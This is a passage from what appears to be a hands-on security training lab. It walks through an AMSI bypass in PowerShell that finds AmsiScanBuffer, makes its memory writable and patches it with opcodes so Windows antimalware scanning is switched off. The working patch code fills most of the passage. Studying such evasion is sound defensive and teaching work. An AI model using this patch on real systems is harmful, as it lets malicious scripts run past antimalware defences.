 Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get to the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.

```csharp
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```

Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

Information on the parameters and their values can be found from the previously mentioned API documentation.

```csharp
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.

```csharp
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```

At this stage, we should have an AMSI bypass that works! It  should be noted that with most tooling, signatures and detections can  and are crafted to detect this script. 

# Automating for Fun and Profit                            

While it is preferred to use the previous methods shown in this room, attackers can use other automated tools to break AMSI signatures or  compile a bypass.
